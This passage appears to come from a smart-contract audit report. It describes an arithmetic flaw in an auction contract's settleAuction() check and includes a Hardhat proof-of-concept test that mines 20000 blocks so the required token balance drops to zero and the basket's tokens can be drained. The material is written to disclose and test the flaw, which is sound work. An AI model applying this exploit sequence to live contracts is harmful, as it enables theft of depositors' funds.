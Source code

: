       for (uint256 i = 0; i < pendingWeights.length; i++) {
          uint256 tokensNeeded = basketAsERC20.totalSupply() * pendingWeights[i] * newRatio / BASE / BASE;
          require(IERC20(pendingTokens[i]).balanceOf(address(basket)) >= tokensNeeded);
      }

The attack vector here is to manipulate `tokensNeeded` to be 0. That way we can drain the basket completely without the function reverting.

For that, we manipulate `newRatio` to be 0 then the whole thing will be 0. `newRatio` is defined as:

      uint256 a = factory.auctionMultiplier() * basket.ibRatio();
      uint256 b = (bondBlock - auctionStart) * BASE / factory.auctionDecrement();
      uint256 newRatio = a - b;

There’s 1 value the attacker controls, `bondBlock`. That value is the block in which the `bondForRebalance()` function was triggered. So the goal is to get `newRatio` to be 0. With the base settings of the contract:

*   auctionMultiplier == 2
*   ibRatio == 1e18
*   BASE == 1e18
*   auctionDecrement == 10000

`bondBlock` has to be `auctionStart + 20000`. Meaning, the `bondForRebalance()` function has to be triggered exactly 20000 blocks after the action was started. That would be around 3 1/2 days after auction start.

At that point, `newRatio` is 0, and thus `tokensNeeded` is 0. The only thing left to do is to call `settleAuction()` and pass the basket’s tokens and balance as the output tokens and weight.

### [](#proof-of-concept-4)Proof of Concept

Here’s a test implementing the above scenario as a test. You can add it to `Auction.test.js`.:

          it.only("should allow me to steal funds", async() => {
            // start an auction
            let NEW_UNI_WEIGHT = "2400000000000000000";
            let NEW_COMP_WEIGHT = "2000000000000000000";
            let NEW_AAVE_WEIGHT = "400000000000000000";
    
            await expect(basket.publishNewIndex([UNI.address, COMP.address, AAVE.address], 
                [NEW_UNI_WEIGHT, NEW_COMP_WEIGHT, NEW_AAVE_WEIGHT], 1)).to.be.ok;
            await increaseTime(60 * 60 * 24)
            await increaseTime(60 * 60 * 24)
            await expect(basket.publishNewIndex([UNI.address, COMP.address, AAVE.address], 
              [NEW_UNI_WEIGHT, NEW_COMP_WEIGHT, NEW_AAVE_WEIGHT], 1)).to.be.ok;
    
            let auctionAddr = await basket.auction();
            let auction = AuctionImpl.attach(auctionAddr);
    
            ethers.provider.getBlockNumber();
            // increase the block number for `bondBlock - auctionStart` to be 20000.
            // When that's the case, the result of `newRatio` in `settleAuction()` 
            // is `0`. And that means `tokensNeeded` is 0. Which means,
            // we can take out all the tokens we want using the `outputTokens` array
            // without having to worry about basket's balance at the end.
            // The math changes depending on the settings of the factory contract or the
            // Basket contract. But, the gist is that you try to get newRatio to be 0.
            // The only values you can control as a attacker is the bondBlock after the auction
            // was started.
            for (let i = 0; i < 20000; i++) {
              await hre.network.provider.send("evm_mine")
            }
            await basket.approve(auction.address, '5000000000000000');
            await expect(auction.bondForRebalance()).to.be.ok;
            await expect(auction.settleAuction([], [], [], [UNI.address, AAVE.address], ["200720000000000000", "200120000000000000"])).to.be.ok;
          });